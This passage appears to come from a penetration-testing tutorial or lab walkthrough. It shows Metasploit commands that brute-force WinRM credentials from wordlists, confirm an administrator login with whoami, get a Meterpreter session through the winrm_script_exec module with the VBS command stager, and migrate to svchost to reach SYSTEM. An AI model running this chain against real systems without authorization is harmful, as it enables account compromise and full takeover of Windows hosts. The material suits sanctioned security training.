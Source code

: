 ```
set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
run
```

We're able to identify some legitimate credentials. 

`CMD`: Specify the actual command to run on the target system to confirm whether this, indeed, works. We can set it to the `whoami` command, which will essentially tell us what permissions we have with the username administrator.

The command that we run tells us that we are currently the server administrator. So we should have administrator privileges if we are able to obtain a Meterpreter session. 

```
search winrm_cmd
use auxiliary/scanner/winrm/winrm_cmd
show options
set USERNAME administrator
set PASSWORD tinkerbell
set CMD whoami
run
```

So in order to execute or to obtain a Meterpreter session through WinRM, we can utilize another module. And this is going to be an exploit module.

```
search winrm_script
use exploit/windows/winrm/winrm_scripts_exec
show options
set USERNAME administrator
set PASSWORD tinkerbell
run
```

We have an issue with the actual runtime. And the reason it's doing that is because we didn't actually set the `FORCE_VBS`, or Visual Basic Script, option. We have the ability to force the module to utilize the VBS command stager, which in this case, we need to do, instead of utilizing the Powershell command stager.

```
set FORCE_VBS true
run
```

And it's going to send the command stager.

Once the command stager is sent, it'll then send the stage, and we'll get a Meterpreter session. It is then going to attempt to migrate to a specified system level process in order to achieve administrative privileges. 

And in this case, it tells us that the session is admin but not system. so it's going to get us `NT AUTHORITY\SYSTEM` privileges. It does that by migrating to the `svchost` process. 

```
meterpreter > sysinfo
...
Meterpreter : x64/windows
```
